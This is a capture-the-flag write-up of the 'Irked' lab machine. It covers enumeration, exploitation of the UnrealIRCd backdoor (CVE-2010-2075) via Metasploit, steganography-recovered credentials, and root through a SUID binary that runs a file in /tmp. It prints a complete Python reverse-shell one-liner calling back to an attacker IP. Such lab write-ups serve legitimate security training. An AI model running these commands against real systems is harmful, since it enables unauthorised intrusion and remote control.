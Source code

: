 # Irked

> Nashia Holloway | May 16th, 2020

## Enumeration

SSH and port 80.

![](web.png)

We have a hint that there's an IRC server running, but it didn't come up in the initial scan. We need a more thorough one: `sudo nmap -p- -sV $IP -oN ports.nmap`.

![](ports.png)

The IRC server is running on port `6697`. Reading [this IRC guide](https://www.offensive-security.com/offsec-irc-guide/), there's a tool in Kali called `HexChat` that lets you connect to IRC servers.

```
sudo apt-get install hexchat
```

We know from running `nmap -sC -sV -p 6697 10.10.10.117`, what the hostname is.

![](irked.png)

Now to open and configure hexchat.

![](hexchat.png)

From here, we can see what version is running: `3.2.8.1`.

![](hexchat_ver.png)

## Initial Access

There's a CVE available (CVE-2010-2075) as well as a metasploit module we can use: `exploit/unix/irc/unreal_ircd_3281_backdoor`. We have a shell and the user flag is under the Djmardov user, but we don't have permission to view it. We do, however, have permission to view the `.backup` file, which gives us a password for a steg file.

![](backup.png)

```
password: UPupDOWNdownLRlrBAbaSSss
```

The only picture I've seen was on the website.

```
wget http://10.10.10.117/irked.jpg
```

```
sudo apt-get install steghide
```

We are given a password presumably for the Djmardov user. We need to login somewhere with it.

![](steghide.png)

```
djmardov:Kab6h+m+bbp2J:HG
```

From our initial nmap scan, we know SSH is open. Trying that, it works. We can now read the user flag.

## Privilege Escalation

```
find / -perm -u=s -type f 2>/dev/null
```

![](su.png)

After some research, it looks like the `/usr/bin/viewuser` program isn't normal. Running it, we see it's a program that tests and sets user permissions. It looks like it's recorded the IP I'm using to login as Djmardov.

![](viewuser.png)

It also says "/tmp/listusers: not found". We could probably hijack this to get a root shell. Let's put a reverse shell within `/tmp/listusers`.

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.46",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

I transferred the file via python web server, and changed it so it can run, then ran the viewuser binary to execute, giving me a root shell on the nc listener I had set up. Was able to get root flag.
